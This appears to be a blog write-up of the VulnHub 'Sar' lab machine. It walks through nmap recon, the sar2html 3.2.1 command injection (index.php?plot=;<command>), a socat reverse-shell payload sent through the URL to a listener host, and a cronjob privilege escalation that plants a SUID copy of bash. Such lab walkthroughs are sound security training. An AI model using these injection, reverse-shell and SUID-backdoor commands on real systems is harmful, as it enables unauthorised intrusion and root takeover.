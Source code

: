 ```yaml
---
layout: post
title: Writeup for Sar machine form vulnhub
categories: [writeup]
tags: [vulnhub, Vulnerable component, RCE, Cronjob]
---
```


**Machine** | [sar](https://www.vulnhub.com/entry/sar-1,425/)
**Vulnerability** | Remote Command Execution
**Privilege Escalation** | Cronjob abuse

## nmap scan

![](/assets/sar/nmap.png)

```
$ nmap -A 192.168.1.104
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-06 11:43 EDT
Nmap scan report for 192.168.1.104
Host is up (0.00065s latency).
Not shown: 999 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.66 seconds
```

## Initial foothold

`robots.txt` contains one value: `sar2HTML`

![](/assets/sar/robots.png)

Browsed to `http://192.168.1.104/sar2HTML` and got the home page

![](/assets/sar/sar2HTML.png)

Looked for an exploit online and found this one at [exploitdb](https://www.exploit-db.com/exploits/47204)

```
# Exploit Title: sar2html Remote Code Execution
# Date: 01/08/2019
# Exploit Author: Furkan KAYAPINAR
# Vendor Homepage:https://github.com/cemtan/sar2html 
# Software Link: https://sourceforge.net/projects/sar2html/
# Version: 3.2.1
# Tested on: Centos 7

In web application you will see index.php?plot url extension.

http://<ipaddr>/index.php?plot=;<command-here> will execute 
the command you entered. After command injection press "select # host" then your command's 
output will appear bottom side of the scroll screen.
```

Tested the exploit:

![](/assets/sar/exploit-test.PNG)

Used socat reverse shell found at [PayloadAllThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#socat)

Sat up a listener

```
socat file:`tty`,raw,echo=0 TCP-L:444
```

Browsed to `http://192.168.1.104/sar2HTML/index.php?plot=;socat%20exec:%27bash%20-li%27,pty,stderr,setsid,sigint,sane%20tcp:192.168.1.100:4444
` and got a reverse shell as `www-data`.


## Privilege Escalation

Examined the content of `/etc/crontab` and found a job running every 5 minutes to execute `/var/www/html/finally.sh`.

![](/assets/sar/crontab.png)

Examined `finally.sh` and found that it executes `write.sh` which we can modify.

![](/assets/sar/write-is-writable.png)

Backed up `write.sh` as `write.sh.orig`

Modified `write.sh` with the following:

```
#!/bin/sh

cp /bin/bash /bin/mybash
chmod u+s /bin/mybash
```

![](/assets/sar/write-modify.png)

Waited for 5 minutes, and `mybash` was created with the SUID bit set.

![](/assets/sar/mybash-suid.png)

Ran `mybash -p` and got a root shell

![](/assets/sar/root-shell.png)

